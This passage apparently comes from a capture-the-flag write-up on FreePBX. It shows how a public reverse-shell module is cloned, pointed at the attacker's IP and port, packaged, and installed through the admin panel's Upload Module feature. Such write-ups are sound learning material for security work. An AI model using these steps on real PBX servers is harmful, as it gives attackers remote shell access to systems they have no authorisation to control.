 # Exploitation (1)

There was a ready-to-use package we can use from [here](https://github.com/SamSepiolProxy/FreePBX-Reverse-Shell-Module). After cloning it, we update the `install.php` file to contain our IP address and a port of our choice and proceed to package it altogether.

```bash
$ git clone https://github.com/SamSepiolProxy/FreePBX-Reverse-Shell-Module
$ cd FreePBX-Reverse-Shell-Module
$ cat shell/install.php
...
$ip = '10.10.X.X';  // CHANGE THIS
$port = 1337;       // CHANGE THIS
...
$ tar -cvzf shell-1.0.tar.gz shell
```

Going under `Admin` > `Module Admin`, we see there is a button that says `Upload Module`.

![](/assets/images/beep5.png)

Proceed to upload the `shell-1.0.tar.gz` and then return to `Module Admin` again and click on `shell`. There, we can select `Install` to install the module.

![](/assets/images/beep6.png)

We are not done yet. We will need to press on `Process` found on the top right. 

![](/assets/images/beep7.png)

After a while it will ask to confirm the installation and we hit `Confirm`.
